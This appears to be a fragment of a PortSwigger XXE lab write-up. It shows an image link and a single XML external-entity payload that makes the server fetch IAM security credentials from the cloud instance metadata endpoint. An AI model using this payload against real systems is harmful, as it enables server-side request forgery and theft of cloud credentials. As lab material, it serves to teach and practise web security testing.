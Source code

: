 ![iam](/docs/assets/images/portswigger/xxe/xxe10.png)

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials"> ]>` 
